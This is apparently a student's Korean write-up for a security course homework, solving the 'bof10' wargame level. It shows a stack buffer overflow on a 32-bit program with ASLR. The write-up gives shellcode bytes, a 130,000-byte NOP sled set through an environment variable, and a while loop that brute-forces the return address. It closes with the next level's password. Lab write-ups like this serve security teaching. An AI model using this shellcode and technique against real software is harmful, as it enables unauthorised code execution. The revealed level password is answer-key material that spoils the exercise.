



# GBC_security HW9  
## bof10 write-up  

bof10은 ASLR이 활성화되어있고, 32비트용 프로그램임을 확인할 수 있었다.  

  
보면 8번과 아주 유사하다.  
따라서 8번처럼 구하되, ASLR이 활성화되어있다는 차이만 있다.  

8번처럼 buf의 주솟값과 vuln return address의 주솟값의 차이를 구한다.  

32비트용 프로그램이기때문에, vuln에서 $esp로 주솟값을 확인한다.  
0xffd3771c가 나온다.  

strcpy에서 0xffd37708에 값을 cpy한다.  
0xffd37708가 buf의 address이다.  

즉, 거리는 p (0xffd3771c - 0xffd37708)  
  
0x14(20)이다.  

buf size가 8이기에, 환경변수에 쉘코드를 삽입해야한다.  

bof8처럼 넣어준다.  
```  
export SHELLCODE=`python -c "print '\xeb\x12\x31\xc9\x5e\x56\x5f\xb1\x15\x8a\x06\xfe\xc8\x88\x06\x46\xe2\xf7\xff\xe7\xe8\xe9\xff\xff\xff\x32\xc1\x32\xca\x52\x69\x30\x74\x69\x01\x69\x30\x63\x6a\x6f\x8a\xe4\xb1\x0c\xce\x81'"`
```  

하지만, ASLR때문에, SHELLCODE의 주솟값이 실행마다 계속 바뀐다.  
bof8은 바뀌지않았기에, SHELLCODE의 거리만큼 'x'를 채우고, SHELLCODE의 주솟값을 주었지만, 이제는 통하지않는다.  

그래서 NOP를 사용한다.  

bof10을 계속 실행해보면, SHELLCODE의 주솟값이 계속 바뀌는데, 0xff8_____부터 0xfff______까지 바뀐다. 

그렇다면 우리는 0xfff______ - 0xff8______사이에서 대충 적당한 부분의 주소를 선택하고, 그 값을SHELLCODE의 주솟값이라 생각한다.(가정한다)  

그리고 SHELLCODE에 NOP코드를 많이 넣어, 정확하지 않더라도, NOP코드로 인해 SHELLCODE가 실행되게 만든다.  

지금의 Ubuntu 환경에서는 NOP코드를 13만개까지 삽입할 수 있다고 하기에, 13만으로 넣고 SHELLCODE를 다시 작성한다.  

**13만개의 NOP가 들어간 쉘코드:**  
```  
export SHELLCODE=`python -c "print '\x90'*130000 + '\xeb\x12\x31\xc9\x5e\x56\x5f\xb1\x15\x8a\x06\xfe\xc8\x88\x06\x46\xe2\xf7\xff\xe7\xe8\xe9\xff\xff\xff\x32\xc1\x32\xca\x52\x69\x30\x74\x69\x01\x69\x30\x63\x6a\x6f\x8a\xe4\xb1\x0c\xce\x81'"`  
```  

자 이제, 거리가 20인 것을 아니까 'x'*20만큼의 거리를 채우고 그 후 적당한 쉘 코드의 주솟값을 준다. 여기선 0xffc64c36에 있다고 가정한다.  

실행을 하면서 주솟값이 계속 바뀌므로, 0xffc64c36 전에 있을수도 후에 있을수도 있지만, while문으로 계속 실행해주며 찍어보자.  

while : ; do  ./bof10 `python -c "print 'a'*20 + '\x36\x4c\xc6\xff'"` ; done  

이 while문으로 반복 명령을 통해 비밀번호를 알 수 있게 되었다.  
  

> bof11 passwd = fe091b4c

